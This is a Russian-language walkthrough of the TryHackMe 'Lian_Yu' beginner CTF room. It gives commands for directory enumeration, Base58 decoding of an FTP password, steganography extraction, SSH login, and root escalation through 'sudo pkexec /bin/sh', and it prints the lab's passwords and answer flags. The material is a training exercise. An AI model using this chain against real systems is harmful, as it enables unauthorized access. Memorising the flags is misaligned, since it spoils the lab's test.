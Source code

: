 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Lian_Yu](https://tryhackme.com/r/room/lianyu) 

Всего 1 заданиe:
## Задание 1
Добро пожаловать в Lian_YU, этот CTF-бокс для новичков в стиле Arrowverse! Захватывайте флаги и получайте удовольствие.

### Ответьте на вопросы ниже
Разверните виртуальную машину и запустите перечисление.
```commandline
Ответ не нужен
```
Какой веб-каталог вы нашли?
```commandline
nmap -sC -sV 10.10.228.22 
gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
# http://10.10.228.22/island
# Code Word -  'vigilante' - (this is our FTP username)
gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```commandline
2100
```
Каково имя найденного вами файла?
```commandline
# http://10.10.228.22/island/2100
# Here it says there is a file with a '.ticket' extension.
gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
```commandline
green_arrow.ticket
```
какой пароль FTP?
```commandline
# http://10.10.228.22/island/2100/green_arrow.ticket
# Seems we found an encryption : 'RTy8yhBQdscX'
# Go to https://gchq.github.io/CyberChef/
# Use 'FromBase58' to decode it.
```
```commandline
!#th3h00d
```
как называется файл с паролем SSH?
```commandline
ftp 10.10.228.22
# Username - vigilante
# password - !#th3h00d
ls
cd /home
ls
cd vigilante
ls
mget filename *
ls
exiftool Leave_me_alone.png
# The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
steghide extract -sf aa.jpg
# password
unzip ss.zip
```
```commandline
shado
```
пользователь.txt
```commandline
cat shado
# M3tahuman
ssh slade@10.10.228.22 
password - M3tahuman
ls
cat user.txt
```
```commandline
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```
корень.txt
```commandline
sudo -l
sudo pkexec /bin/sh
whoami
ls
cat root.txt
```
```commandline
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)